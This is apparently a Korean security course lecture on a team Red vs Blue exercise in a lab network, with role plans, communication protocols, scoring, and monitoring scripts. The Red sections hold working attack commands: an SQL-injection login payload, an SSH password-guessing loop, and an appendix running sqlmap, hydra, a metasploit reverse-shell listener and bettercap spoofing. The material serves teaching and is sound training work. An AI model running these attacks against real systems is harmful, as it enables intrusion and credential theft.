


# Week 13: 팀 공방전 -- Red Team vs Blue Team 운영

## 학습 목표
- Red Team과 Blue Team을 팀 단위로 구성하고 역할을 분담할 수 있다
- Red Team 작전 계획(OPORD)을 수립하고 팀원 간 효과적으로 통신할 수 있다
- Blue Team 방어 작전을 수립하고 SOC(Security Operations Center) 형태로 운영할 수 있다
- 팀 내 실시간 커뮤니케이션 프로토콜을 정의하고 활용할 수 있다
- 다중 호스트를 대상으로 동시 공격/방어 작전을 수행할 수 있다
- 팀 전략과 개인 기술을 통합하여 공방전 효율성을 극대화할 수 있다
- 팀 공방전 결과를 Purple Team 관점에서 분석하고 보고서를 작성할 수 있다

## 전제 조건
- Week 11~12의 1v1 공방전 경험
- 공격 기법(정찰, 침투, 권한상승)과 방어 기법(탐지, 차단, IR) 숙달
- 팀 구성 완료 (3~4인 1팀, Red/Blue 2팀)
- 실습 인프라 전체 접속 확인

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:30 | 팀 공방전 이론 + 역할 분담 | 강의 |
| 0:30-1:00 | 작전 계획 수립 (Red/Blue 별도) | 워크숍 |
| 1:00-1:10 | 휴식 + 최종 준비 | - |
| 1:10-2:10 | 팀 공방전 Round 1 (60분) | 실습 |
| 2:10-2:20 | 휴식 | - |
| 2:20-3:00 | 결과 분석 + Purple Team 토론 | 실습 |
| 3:00-3:40 | 디브리핑 + 퀴즈 + 과제 안내 | 토론/퀴즈 |

---

# Part 1: 팀 공방전 이론 + 역할 분담 (30분)

## 1.1 팀 공방전의 의의

1v1 공방전이 개인 기술을 검증하는 것이라면, 팀 공방전은 **협업과 소통 능력**을 검증한다. 실제 보안 운영은 팀으로 수행되며, 혼자서는 다중 호스트 환경의 공격/방어를 동시에 처리할 수 없다.

**MITRE ATT&CK 매핑:**
```
팀 공방전에서 다루는 전체 Kill Chain:
  +-- [Red]  TA0043 Reconnaissance     → 정찰팀
  +-- [Red]  TA0001 Initial Access      → 침투팀
  +-- [Red]  TA0002 Execution           → 침투팀
  +-- [Red]  TA0003 Persistence         → 지속성팀
  +-- [Red]  TA0004 Privilege Escalation → 침투팀
  +-- [Red]  TA0008 Lateral Movement    → 피벗팀
  +-- [Red]  TA0010 Exfiltration        → 목표팀
  +-- [Blue] Detection                  → SOC 분석가
  +-- [Blue] Containment               → IR 대응팀
  +-- [Blue] Recovery                   → 시스템 관리팀
```

### 1v1 vs 팀 공방전 비교

| 항목 | 1v1 | 팀 (3~4인) |
|------|-----|-----------|
| 범위 | 단일 서버 | 전체 인프라 (4개 서버) |
| 시간 | 40분 | 60분 |
| 역할 | 공격 또는 방어 | 팀 내 역할 분담 |
| 통신 | 불필요 | 필수 (실시간 공유) |
| 전략 | 개인 판단 | 팀 합의/지휘 체계 |
| 복잡도 | 단일 벡터 | 다중 벡터 동시 |

## 1.2 Red Team 조직 구조

### 역할 분담 (3~4인)

| 역할 | 책임 | 기술 요구 | 초점 |
|------|------|---------|------|
| **팀장 (Leader)** | 전략 수립, 의사결정, 시간 관리 | 전반적 이해 | 지휘/통신 |
| **정찰원 (Recon)** | 네트워크 스캔, 서비스 열거 | nmap, curl | 정보 수집 |
| **침투원 (Exploit)** | 취약점 공격, 셸 획득 | SQLi, 브루트포스 | 초기 접근 |
| **지속/확산 (Persist)** | 권한 상승, 지속성, 횡적 이동 | Linux 권한, SSH | 발판 확보 |

### Red Team 통신 프로토콜

```
[Red Team 통신 규칙]

1. 발견 공유 — 즉시
   "FOUND: web:80 Apache 2.4.52, 3000 JuiceShop"
   "FOUND: SSH password auth enabled on all hosts"

2. 진행 보고 — 5분 간격
   "PROGRESS: 정찰 60% 완료, 취약점 2개 식별"

3. 성공 보고 — 즉시
   "SHELL: web 서버 셸 획득 (ccc@10.20.30.80)"
   "PRIVESC: root 권한 획득"

4. 차단 보고 — 즉시
   "BLOCKED: SSH 차단됨, 웹 공격으로 전환"

5. 도움 요청
   "HELP: SQLi 페이로드 필요 (JuiceShop)"
```

## 1.3 Blue Team 조직 구조

### 역할 분담 (3~4인)

| 역할 | 책임 | 모니터링 대상 | 도구 |
|------|------|------------|------|
| **SOC 리더** | 전체 지휘, 알림 분류, 의사결정 | 종합 상황판 | 통신 관리 |
| **네트워크 분석가** | IDS/방화벽 모니터링, 트래픽 분석 | secu (Suricata, nftables) | tail, nft |
| **호스트 분석가** | 서버 로그, 프로세스, 파일 감시 | web (auth.log, access.log) | tail, ps, ss |
| **IR 대응자** | 차단 실행, 격리, 증거 수집, 복구 | 전체 (대응 시) | nft, kill, cp |

### Blue Team SOC 운영 구조



### Blue Team 통신 프로토콜

```
[Blue Team 통신 규칙]

1. 알림 (ALERT) — 이상 징후 발견 시
   "ALERT: secu IDS — ET SCAN detected from 10.20.30.201"
   "ALERT: web auth.log — 5x Failed SSH from 10.20.30.201"

2. 분석 (ANALYSIS) — 판단 공유
   "ANALYSIS: 포트 스캔 → 정찰 단계, 관찰 유지 권장"
   "ANALYSIS: SSH 성공 로그인 → 침투 확인, 즉시 차단 필요"

3. 대응 (ACTION) — 조치 실행/완료
   "ACTION: IP 10.20.30.201 차단 실행"
   "ACTION: web 비밀번호 변경 완료"

4. 상태 (STATUS) — 5분 간격
   "STATUS: 서비스 정상, 추가 공격 없음, 모니터링 유지"
```

## 1.4 공방전 규칙 (팀전용)

### 시간 구조 (60분)

```
[팀 공방전 타임라인]

0:00   시작 — 양팀 동시 시작
0~10   Red: 정찰 / Blue: 하드닝 + 모니터링 시작
10~30  Red: 침투 시도 / Blue: 탐지 + 초기 대응
30~50  Red: 확산 + 지속성 / Blue: 봉쇄 + 근절
50~60  Red: 최종 목표 / Blue: 복구 + 보고서
60:00  종료
```

### 점수 체계 (팀 전용)

| Red Team | 점수 | Blue Team | 점수 |
|---------|------|---------|------|
| 서버당 정찰 완료 | +10 | 정찰 탐지 (5분 내) | +10 |
| 초기 접근 성공 | +30/서버 | 침투 탐지 | +15 |
| 권한 상승 | +20/서버 | 차단/격리 성공 | +20 |
| 횡적 이동 | +25/서버 | 서비스 가용성 유지 | +15/서버 |
| 플래그 획득 | +30/플래그 | 증거 수집 (해시 포함) | +15 |
| 팀 보고서 | +20 | IR 보고서 (NIST 형식) | +20 |

---

# Part 2: 작전 계획 수립 워크숍 (30분)

## 2.1 Red Team 작전 계획 (OPORD)

### 작전 계획 템플릿

> **실습 목적**: Red Team이 체계적인 공격 작전 계획을 수립한다. 실제 Red Team 작전은 계획 없이 수행하지 않는다.
>
> **배우는 것**: OPORD(Operations Order) 형식의 작전 계획, 역할 분담, 시간 관리

```bash
cat << 'OPORD'
=== Red Team 작전 계획서 (OPORD) ===

1. 상황 (Situation)
   - 대상 네트워크: 10.20.30.0/24
   - 알려진 호스트: secu(.1), web(.80), siem(.100), bastion(.201)
   - 주 목표: web 서버 플래그 획득 (root 권한)
   - 부 목표: siem 서버 접근, 횡적 이동

2. 임무 (Mission)
   60분 내에 web 서버에 침투하여 root 플래그를 획득하고,
   가능하면 다른 서버로 횡적 이동한다.

3. 실행 (Execution)
   Phase 1 (0~10분): 전체 정찰
   - 정찰원: 전체 서브넷 스캔, 서비스 열거
   - 침투원: 웹 서비스 수동 정찰 시작
   - 지속원: SSH 키/비밀번호 준비

   Phase 2 (10~30분): 침투
   - 정찰원: 취약점 심층 분석 지원
   - 침투원: 웹 취약점 공격 (JuiceShop SQLi)
   - 지속원: SSH 사전 공격 (병렬)

   Phase 3 (30~50분): 확산
   - 침투원: 권한 상승 (SUID, sudo)
   - 지속원: 백도어 설치, 지속성 확보
   - 정찰원: 내부 네트워크 정찰 (피벗)

   Phase 4 (50~60분): 목표
   - 전원: 플래그 획득, 증거 수집, 보고서

4. 통신 (Signal)
   - 채널: 지정된 채팅/음성
   - 코드: FOUND/SHELL/BLOCKED/HELP
   - 보고 주기: 5분

5. 비상 계획
   - 차단당한 경우: 다른 벡터로 전환
   - 시간 부족 시: Phase 2 성과로 점수 확보
OPORD
```

> **실전 활용**: 실제 Red Team 작전에서도 OPORD 형식의 작전 계획을 수립한다. 계획 없는 공격은 시간을 낭비하고 탐지될 확률이 높다.

## 2.2 Blue Team 방어 계획

### 방어 계획 템플릿

> **실습 목적**: Blue Team이 체계적인 방어 계획을 수립한다. SOC 운영 절차를 정의한다.
>
> **배우는 것**: 방어 작전 계획, SOC 운영 절차, 에스컬레이션 규칙

```bash
cat << 'DEFPLAN'
=== Blue Team 방어 계획서 ===

1. 방어 목표
   - 모든 서비스 가용성 100% 유지
   - 침투 시도 100% 탐지 (목표)
   - 침투 성공 시 5분 내 차단/격리

2. 초기 하드닝 (0~10분)
   - SOC 리더: 모니터링 환경 구축
   - 네트워크 분석가: Suricata 로그 모니터링 시작
   - 호스트 분석가: web 서버 로그 + 하드닝
     - SSH MaxAuthTries 3
     - 비밀번호 강화 확인
     - 설정 백업
   - IR 대응자: 방화벽 규칙 확인, 차단 스크립트 준비

3. 모니터링 배치
   - 네트워크 분석가:
     secu → tail -f /var/log/suricata/fast.log
     secu → dmesg -w | grep nft
   - 호스트 분석가:
     web → tail -f /var/log/auth.log
     web → tail -f /var/log/apache2/access.log

4. 에스컬레이션 규칙
   Level 1 (정보): 스캔 탐지 → 로그 기록, 관찰 유지
   Level 2 (경고): 공격 시도 → SOC 리더 보고, Rate Limiting
   Level 3 (긴급): 침투 성공 → 즉시 격리, IR 프로세스

5. 통신 규칙
   - ALERT/ANALYSIS/ACTION/STATUS 프로토콜 준수
   - 5분마다 STATUS 보고
DEFPLAN
```

> **실전 활용**: 실제 SOC에서도 이런 형태의 운영 절차서를 사용한다. 미리 정의된 절차가 있으면 인시던트 발생 시 당황하지 않고 체계적으로 대응할 수 있다.

---

# Part 3: 팀 공방전 실습 (60분)

## 실습 3.1: Red Team 팀 공격 실행

### Step 1: 팀 정찰 (Phase 1)

> **실습 목적**: 팀원이 역할을 분담하여 전체 인프라를 동시에 정찰한다. 1인보다 3~4배 빠르게 정보를 수집할 수 있다.
>
> **배우는 것**: 병렬 정찰, 결과 통합, 실시간 정보 공유

```bash
# === Red Team Phase 1: 병렬 정찰 ===
echo "[$(date +%H:%M:%S)] Red Team Phase 1 시작 — 병렬 정찰"

# 정찰원: 전체 네트워크 스캔
echo "[정찰원] 전체 서브넷 스캔"
echo 1 | sudo -S nmap -sS -sV -T4 --top-ports 1000 10.20.30.0/24 \
  -oN /tmp/red_team_full.txt 2>/dev/null &
SCAN_PID=$!
echo "스캔 PID: $SCAN_PID (백그라운드 실행)"

# 침투원: 웹 서비스 수동 정찰 (동시 수행)
echo "[침투원] 웹 서비스 정찰"
for port in 80 3000 8002; do
  echo "  Port $port:"
  curl -sI "http://10.20.30.80:$port" 2>/dev/null | head -5
  echo ""
done

# 지속원: SSH 정보 수집 (동시 수행)
echo "[지속원] SSH 정보 수집"
for host in 10.20.30.1 10.20.30.80 10.20.30.100; do
  echo -n "  $host SSH: "
  echo "" | nc -w3 "$host" 22 2>/dev/null | head -1
done

# 스캔 완료 대기
wait $SCAN_PID 2>/dev/null
echo ""
echo "[정찰 통합 결과]"
grep "open" /tmp/red_team_full.txt 2>/dev/null | grep -v "^#" | head -20

echo "[$(date +%H:%M:%S)] Phase 1 완료"
```

> **결과 해석**:
> - 3명이 동시에 다른 작업을 수행하면 정찰 시간을 1/3로 단축할 수 있다
> - 정찰원의 nmap이 백그라운드에서 실행되는 동안 침투원/지속원이 수동 정찰을 수행
> - 결과를 팀장에게 보고하여 통합 공격 계획을 수립한다
>
> **실전 활용**: 팀 공방전의 핵심은 병렬 처리이다. 각자의 역할에 집중하면서 발견 사항을 즉시 공유한다.
>
> **명령어 해설**:
> - `nmap ... &`: 백그라운드 실행 (다른 작업과 병렬 수행)
> - `wait $PID`: 백그라운드 프로세스 완료 대기
>
> **트러블슈팅**:
> - 백그라운드 스캔이 끝나지 않는 경우: `kill $SCAN_PID`로 중단 후 범위 축소
> - 팀원 간 정보 공유 지연: 채팅 채널에 즉시 메시지 전송

### Step 2: 팀 침투 (Phase 2)

> **실습 목적**: 역할별로 다른 공격 벡터를 동시에 시도하여 침투 확률을 높인다.
>
> **배우는 것**: 다중 벡터 동시 공격, 팀 간 실시간 조율

```bash
# === Red Team Phase 2: 다중 벡터 침투 ===
echo "[$(date +%H:%M:%S)] Phase 2 시작 — 다중 벡터 침투"

# 침투원: 웹 취약점 공격 (JuiceShop SQLi)
echo "[침투원] JuiceShop SQLi 시도"
curl -s -X POST http://10.20.30.80:3000/rest/user/login \
  -H "Content-Type: application/json" \
  -d '{"email":"'\'' OR 1=1--","password":"x"}' 2>/dev/null | head -c 100
echo ""

# 지속원: SSH 사전 공격 (병렬)
echo "[지속원] SSH 사전 공격"
for user in web root; do
  for pass in 1 password admin 123456; do
    timeout 3 sshpass -p"$pass" ssh -o StrictHostKeyChecking=no \
      -o ConnectTimeout=2 "$ccc@10.20.30.80" "echo 'SSH OK: $user/$pass'" 2>/dev/null
    [ $? -eq 0 ] && echo "SHELL: SSH 성공 $user@web" && break 2
  done
done

# 정찰원: siem/secu 서버 취약점 탐색 (동시)
echo "[정찰원] 다른 서버 탐색"
echo 1 | sudo -S nmap --script=vuln -p 22,443 10.20.30.100 2>/dev/null | \
  grep -E "VULNERABLE|CVE" | head -5 || echo "siem 취약점 미발견"

echo "[$(date +%H:%M:%S)] Phase 2 완료"
```

> **결과 해석**:
> - 3가지 벡터를 동시에 시도하면 하나가 차단되어도 다른 벡터로 성공할 수 있다
> - 침투원이 웹 공격, 지속원이 SSH 공격, 정찰원이 다른 서버를 동시에 처리
> - "SHELL" 보고가 나오면 팀장이 Phase 3 전환을 지시한다
>
> **실전 활용**: 실제 Red Team 작전에서도 다중 벡터 동시 공격은 기본 전술이다. Blue Team의 주의를 분산시키는 효과도 있다.
>
> **명령어 해설**:
> - `timeout 3`: 3초 타임아웃으로 빠른 실패 처리
> - `break 2`: 이중 루프를 한 번에 탈출 (성공 시)
>
> **트러블슈팅**:
> - 모든 벡터가 차단된 경우: Blue Team이 강력한 방어 → 우회 전략 필요 (비표준 포트, 암호화)

## 실습 3.2: Blue Team 팀 방어 실행

### Step 1: SOC 운영 시작

> **실습 목적**: Blue Team이 SOC 형태로 조직적으로 모니터링을 시작한다.
>
> **배우는 것**: SOC 운영 절차, 역할별 모니터링 담당, 에스컬레이션 실습

```bash
# === Blue Team: SOC 운영 시작 ===
echo "[$(date +%H:%M:%S)] Blue Team SOC 운영 시작"

# SOC 리더: 전체 상황 확인
echo "[SOC 리더] 인프라 상태 확인"
echo "  web(80):   $(curl -s -o /dev/null -w '%{http_code}' --connect-timeout 2 http://10.20.30.80:80/)"
echo "  juice(3000): $(curl -s -o /dev/null -w '%{http_code}' --connect-timeout 2 http://10.20.30.80:3000/)"
echo "  siem(443): $(curl -s -o /dev/null -w '%{http_code}' --connect-timeout 2 https://10.20.30.100:443/ 2>/dev/null || echo 'N/A')"

# 네트워크 분석가: IDS + 방화벽 모니터링
echo ""
echo "[네트워크 분석가] Suricata 최근 알림"
ssh ccc@10.20.30.1 \
  "tail -10 /var/log/suricata/fast.log 2>/dev/null || echo 'Suricata 로그 없음'"

# 호스트 분석가: 서버 로그 + 하드닝 확인
echo ""
echo "[호스트 분석가] web 서버 보안 상태"
ssh ccc@10.20.30.80 \
  "echo 'SSH 실패: '$(grep -c 'Failed' /var/log/auth.log 2>/dev/null); \
   echo '열린 포트: '$(ss -tln 2>/dev/null | grep -c LISTEN); \
   echo '로그인 계정: '$(grep -cv 'nologin\|false' /etc/passwd)"

# IR 대응자: 차단 스크립트 준비
echo ""
echo "[IR 대응자] 차단 스크립트 준비 완료"
echo "  빠른 차단: nft add rule inet filter input ip saddr <IP> drop"
echo "  Rate Limit: nft add rule inet filter input ip saddr <IP> limit rate 5/second accept"
echo "  격리: Week 09 격리 절차 준비"

echo "[$(date +%H:%M:%S)] SOC 운영 체계 구축 완료"
```

> **결과 해석**:
> - 각 역할이 자신의 담당 영역을 즉시 모니터링 시작
> - SOC 리더는 전체 서비스 가용성을 확인하고 팀원에게 상황을 브리핑
> - IR 대응자는 차단 명령을 미리 준비하여 즉시 실행 가능하게 함
>
> **실전 활용**: 실제 SOC에서도 이와 동일한 구조로 운영된다. 각자의 역할에 집중하고, 이상 발견 시 SOC 리더에게 에스컬레이션한다.
>
> **명령어 해설**:
> - 각 분석가의 모니터링 명령은 별도 터미널에서 `tail -f`로 실시간 실행
>
> **트러블슈팅**:
> - 역할 간 소통이 안 되는 경우: 5분마다 강제 STATUS 보고 시행

### Step 2: 팀 단위 탐지 및 대응

> **실습 목적**: 공격이 탐지되면 팀 단위로 에스컬레이션하고 대응한다.
>
> **배우는 것**: 에스컬레이션 절차, 팀 단위 의사결정, 동시 대응

```bash
# === Blue Team: 팀 단위 대응 시나리오 ===
echo "[$(date +%H:%M:%S)] 팀 대응 시나리오"

# 시나리오: 네트워크 분석가가 스캔을 탐지
echo "=== 에스컬레이션 흐름 ==="
echo ""
echo "1. [네트워크 분석가 → SOC 리더]"
echo "   ALERT: ET SCAN detected from 10.20.30.201 → web:80,3000"
echo ""
echo "2. [SOC 리더 판단]"
echo "   ANALYSIS: 정찰 단계. Level 1. 관찰 유지, Rate Limiting 적용"
echo ""
echo "3. [SOC 리더 → IR 대응자]"
echo "   ACTION: 10.20.30.201에 Rate Limiting 적용"
echo ""
echo "4. [호스트 분석가 → SOC 리더]"
echo "   ALERT: auth.log — 5x Failed SSH from 10.20.30.201!"
echo ""
echo "5. [SOC 리더 판단]"
echo "   ANALYSIS: 브루트포스 확인. Level 2 → Level 3 에스컬레이션"
echo "   ACTION: 즉시 IP 차단 + 비밀번호 확인"
echo ""
echo "6. [IR 대응자 실행]"
echo "   ACTION: IP 차단 실행"
echo "   DONE: 차단 완료, 서비스 정상"

# 실제 탐지 데이터 확인
echo ""
echo "=== 현재 탐지 데이터 ==="
echo "[SSH 실패 카운트]"
ssh ccc@10.20.30.80 \
  "grep 'Failed' /var/log/auth.log 2>/dev/null | wc -l"

echo "[IDS 알림 카운트]"
ssh ccc@10.20.30.1 \
  "grep -c 'SCAN\|EXPLOIT\|TROJAN' /var/log/suricata/fast.log 2>/dev/null || echo 0"
```

> **결과 해석**:
> - 에스컬레이션 흐름이 명확하면 대응 시간을 최소화할 수 있다
> - SOC 리더가 판단을 내리고, IR 대응자가 즉시 실행하는 구조가 효율적
> - Level 1→2→3 에스컬레이션에 따라 대응 강도를 높인다
>
> **실전 활용**: SOC 운영에서 에스컬레이션 규칙이 없으면 "누가 결정하나?"로 시간을 낭비한다. 미리 정의된 규칙이 핵심이다.
>
> **명령어 해설**:
> - 이 단계에서는 통신 프로토콜과 의사결정이 핵심이다
>
> **트러블슈팅**:
> - SOC 리더가 판단에 지체하는 경우: 기본 규칙 적용 (5회 실패 = 자동 차단)

---

# Part 4: 결과 분석 + Purple Team 토론 (40분)

## 실습 4.1: 팀 공방전 결과 분석

### Step 1: 양팀 성과 평가

> **실습 목적**: Red/Blue 양팀의 성과를 점수 체계에 따라 평가하고 비교한다.
>
> **배우는 것**: 객관적 성과 평가, Purple Team 관점의 통합 분석

```bash
cat << 'RESULTS'
=== 팀 공방전 결과 분석 ===

[Red Team 성과]
  정찰:        4서버 x 10점 = 40점
  침투 성공:    web x 30점  = 30점 (또는 0점)
  권한 상승:    0~20점
  횡적 이동:    0~25점
  팀 보고서:    20점
  ------------------------
  합계:        90~135점

[Blue Team 성과]
  정찰 탐지:    10점
  침투 탐지:    15점 (또는 0점)
  차단/격리:    20점 (또는 0점)
  서비스 유지:   4서버 x 15점 = 60점
  증거 수집:    15점
  IR 보고서:    20점
  ------------------------
  합계:        80~140점

[Purple Team 분석]
  탐지율:       %
  평균 탐지 시간: 분
  차단까지 시간:  분
  서비스 중단:    회
  교훈:          개
RESULTS

# 서비스 가용성 최종 확인
echo "=== 최종 서비스 상태 ==="
for target in "http://10.20.30.80:80/" "http://10.20.30.80:3000/"; do
  STATUS=$(curl -s -o /dev/null -w "%{http_code}" --connect-timeout 3 "$target")
  echo "  $target → $STATUS"
done
```

> **실전 활용**: Purple Team 분석은 Red/Blue 양측의 교훈을 통합하여 조직의 보안을 실질적으로 개선하는 핵심 과정이다.

### Step 2: Bastion 결과 기록

> **실습 목적**: 팀 공방전 결과를 Bastion에 기록한다.
>
> **배우는 것**: Bastion를 이용한 팀 단위 작업 기록

```bash
RESULT=$(curl -s -X POST http://localhost:9100/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: ccc-api-key-2026" \
  -d '{"name":"week13-team-battle","request_text":"팀 공방전","master_mode":"external"}')
PID=$(echo $RESULT | python3 -c "import sys,json; print(json.load(sys.stdin)['project']['id'])")
curl -s -X POST "http://localhost:9100/projects/$PID/plan" -H "X-API-Key: ccc-api-key-2026" > /dev/null
curl -s -X POST "http://localhost:9100/projects/$PID/execute" -H "X-API-Key: ccc-api-key-2026" > /dev/null

curl -s -X POST "http://localhost:9100/projects/$PID/completion-report" \
  -H "Content-Type: application/json" \
  -H "X-API-Key: ccc-api-key-2026" \
  -d '{
    "summary": "팀 공방전 완료 — Red Team vs Blue Team 60분",
    "outcome": "success",
    "work_details": [
      "Red Team: 병렬 정찰 + 다중 벡터 침투 + 확산 시도",
      "Blue Team: SOC 운영 + 에스컬레이션 + 차단/격리",
      "팀 통신 프로토콜 실전 적용",
      "Purple Team 분석으로 양측 교훈 도출"
    ]
  }' | python3 -c "import sys,json; d=json.load(sys.stdin); print(f'보고서: {d.get(\"status\",\"ok\")}')"
```

---

## 검증 체크리스트
- [ ] Red Team 역할 분담(리더/정찰/침투/지속)을 설명할 수 있는가
- [ ] Blue Team SOC 구조(리더/네트워크/호스트/IR)를 설명할 수 있는가
- [ ] Red Team 작전 계획(OPORD)을 작성할 수 있는가
- [ ] Blue Team 방어 계획과 에스컬레이션 규칙을 정의할 수 있는가
- [ ] 팀 통신 프로토콜(ALERT/ANALYSIS/ACTION/STATUS)을 활용할 수 있는가
- [ ] 병렬 정찰/공격으로 팀 효율성을 높일 수 있는가
- [ ] SOC 운영 형태로 다중 소스를 동시에 모니터링할 수 있는가
- [ ] Purple Team 관점에서 양측 결과를 통합 분석할 수 있는가

## 과제

### 과제 1: 팀 공방전 보고서 (필수)
- 팀 역할에서 수행한 활동을 시간순으로 정리
- 팀 통신 로그 포함 (ALERT/ACTION 메시지)
- 팀 전략의 효과와 개선점 분석
- Purple Team 관점의 교훈 포함

### 과제 2: SOC 운영 절차서 작성 (선택)
- 10페이지 이상의 SOC 운영 절차서 작성
- 역할 정의, 에스컬레이션 규칙, 통신 프로토콜, 대응 플레이북 포함
- 인시던트 유형별 대응 절차 포함

### 과제 3: 자동화 SOC 대시보드 (도전)
- 다중 로그 소스를 통합 표시하는 터미널 대시보드 스크립트 작성
- IDS 알림, SSH 로그, 웹 로그, 연결 상태를 한 화면에 표시
- 알림 발생 시 색상 강조 또는 소리 알림 기능

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### CCC Bastion Agent
> **역할:** CCC 자율 운영 에이전트 — 스킬/플레이북/경험 학습  
> **실행 위치:** `bastion (10.20.30.201)`  
> **접속/호출:** TUI `./dev.sh bastion`, API `http://localhost:8003`

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `packages/bastion/agent.py` | 메인 에이전트 루프 |
| `packages/bastion/skills.py` | 스킬 정의 |
| `packages/bastion/playbooks/` | 정적 플레이북 YAML |
| `data/bastion/experience/` | 수집된 경험 (pass/fail) |

**핵심 설정·키**

- `LLM_BASE_URL / LLM_MODEL` — Ollama 연결
- `CCC_API_KEY` — ccc-api 인증
- `max_retry=2` — 실패 시 self-correction 재시도

**로그·확인 명령**

- ``docs/test-status.md`` — 현재 테스트 진척 요약
- ``bastion_test_progress.json`` — 스텝별 pass/fail 원시

**UI / CLI 요점**

- 대화형 TUI 프롬프트 — 자연어 지시 → 계획 → 실행 → 검증
- `/a2a/mission` (API) — 자율 미션 실행
- Experience→Playbook 승격 — 반복 성공 패턴 저장

> **해석 팁.** 실패 시 output을 분석해 **근본 원인 교정**이 설계의 핵심. 증상 회피/땜빵은 금지.

---

## 실제 사례 (WitFoo Precinct 6 — 팀 공방전 Red vs Blue)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *팀 공방전 Red vs Blue* 학습 항목 매칭.

### 팀 공방전 Red vs Blue 의 dataset 흔적 — "Multi-stage chain"

dataset 의 정상 운영에서 *Multi-stage chain* 신호의 baseline 을 알아두면, *팀 공방전 Red vs Blue* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — 5단계 attack chain (recon→exploit→privesc→lateral→exfil).



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | Multi-stage chain |
| 정량 baseline | 5단계 attack chain (recon→exploit→privesc→lateral→exfil) |
| 학습 매핑 | 팀 협업 + role 분리 |

**자세한 해석**: 팀 협업 + role 분리. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | Multi-stage chain 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **팀 공방전 Red vs Blue = Multi-stage chain 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — 5단계 attack chain (recon→exploit→privesc→lateral→exfil).
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: lab 5인 팀 공방전 → 5단계 모두 dataset 신호 매핑.


---

## 부록: 학습 OSS 도구 매트릭스 (Course11 — Week 13 다중 벡터 공격)

### Red — 4 벡터 동시 공격

| 벡터 | 도구 | Blue 방어 |
|------|------|----------|
| Web | sqlmap + XSStrike + dalfox | ModSec + Suricata |
| 인증 | hydra (SSH/HTTP 동시) | fail2ban + Wazuh frequency |
| 시스템 | metasploit + msfvenom | Falco + Wazuh agent |
| 네트워크 | tcpdump + bettercap (MITM) | Suricata DPI + Zeek |

### 동시 공격 시나리오 (Red — 4 터미널 병렬)

```bash
# === Terminal 1: Web ===
sqlmap -u "http://10.20.30.80:3000/rest/products/search?q=apple" \
    --batch --random-agent --dbs &
SQLMAP_PID=$!

# === Terminal 2: SSH brute ===
hydra -L /tmp/users.txt -P /usr/share/wordlists/rockyou.txt \
    ssh://10.20.30.80 -t 4 &
HYDRA_PID=$!

# === Terminal 3: 시스템 (metasploit) ===
msfconsole -q -x "
use exploit/multi/handler;
set payload linux/x64/shell_reverse_tcp;
set LHOST 192.168.0.112;
set LPORT 4444;
exploit -j;
" &
MSF_PID=$!

# === Terminal 4: 네트워크 MITM (실습 환경에서만!) ===
sudo bettercap -iface eth0 -caplet /usr/share/bettercap/caplets/spoof.cap &
BC_PID=$!

# === 모니터 ===
echo "All attacks running:"
echo "  sqlmap PID=$SQLMAP_PID"
echo "  hydra PID=$HYDRA_PID"
echo "  msf PID=$MSF_PID"
echo "  bettercap PID=$BC_PID"

# 30분 후 종료
sleep 1800
kill $SQLMAP_PID $HYDRA_PID $MSF_PID $BC_PID
```

### Blue — 통합 모니터 (4 layer 방어)

```bash
# === 통합 모니터 dashboard (Wazuh + Suricata + Falco) ===
watch -n 5 '
echo "=== Wazuh (level >= 10, 5분 내) ==="
sudo jq -r "select(.rule.level >= 10 and (now - (.timestamp | fromdateiso8601)) < 300) | \"[\\(.rule.level)] \\(.rule.description)\"" /var/ossec/logs/alerts/alerts.json | tail -10

echo ""
echo "=== Suricata (alert 5분 내) ==="
